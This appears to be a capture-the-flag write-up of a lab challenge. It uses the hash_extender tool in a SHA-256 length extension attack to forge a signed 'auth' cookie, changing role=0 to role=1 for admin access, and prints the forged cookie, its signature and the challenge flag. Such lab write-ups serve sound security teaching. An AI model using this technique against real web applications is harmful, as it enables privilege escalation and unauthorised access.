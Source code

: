 ```php
            echo "<h1>Welcome, Admin!</h1><br><br>";
        } elseif (strpos($auth, 'role=0') !== false) {
            echo "<html><head><title>User Panel</title></head><body>";
            echo "<h1>Welcome, User!</h1><br><br>";
        }
    }
}
```

In this setup:

- The `auth` cookie contains user data like `"username=user;role=0"` to indicate a regular user.
- The `hsh` cookie is the SHA-256 hash signature generated using the secret key combined with the `auth` data.
- The server checks if `role=1` exists in `auth` to grant admin access.

As an attacker, our goal is to escalate privileges by changing `role=0` to `role=1` in the `auth` cookie, effectively gaining admin access without knowing the secret key. To achieve this,  again we'll use **Hash Extender** to perform a length extension attack.

### Modifying the Cookie

The `hash_extender` tool can be used to generate a modified cookie value that includes `role=1` and provides a new valid signature.

```
./hash_extender --data 'username=user;role=0' --append ';role=1' --signature bfe0fa5c36531773c73dcc8d2a931301f69cf9add05a1f35dcfa2d48b44c37f0 --format sha256 --secret 8 --out-data-format=html
```

**Explanation**:
- `--data` is the original cookie value (`username=user;role=0`).
- `--append` specifies the data we want to add (`;role=1`).
- `--signature` is the original SHA-256 hash signature for `username=user;role=0`.
- `--format` specifies the hash algorithm (SHA-256).
- `--secret` is the guessed length of the secret key (in this case, `8`).

The `hash_extender` output provides us with:
- A **new signature** for the modified cookie.
- A **new auth string** that includes the appended `;role=1`.

```plaintext
auth=username%3duser%3brole%3d0%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%e0%3brole%3d1
hsh=daf3dbdc47fd93fabe110ef0ed58a39d1eb59c234a7fd66d0fe2e1dd76f1e37f


paste in the browser cookie sections > reload page


THM{l3n6th_2_4dM1n}

Auth:
HSH: daf3dbdc47fd93fabe110ef0ed58a39d1eb59c234a7fd66d0fe2e1dd76f1e37f
```
